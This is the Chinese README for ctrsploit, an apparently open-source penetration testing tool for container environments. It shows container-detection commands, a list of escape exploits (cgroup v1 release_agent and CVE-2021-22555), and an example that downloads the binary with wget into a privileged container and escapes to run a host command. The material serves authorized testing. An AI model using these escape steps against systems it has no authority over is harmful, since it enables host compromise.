 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where/README.md) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver/README.md) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups/README.md) | c | gather cgroup information |
| [capability](./env/capability/README.md) | cap | show the capability of pid 1 and current process |
| seccomp | s | show the seccomp info |
| apparmor | a | show the apparmor info |

### exploit

| exploit | 缩写 | 简述 |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent/README.md) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555](./exploit/CVE-2021-22555/README.md) | 22555 | escape tech by using the CVE-2021-22555 |
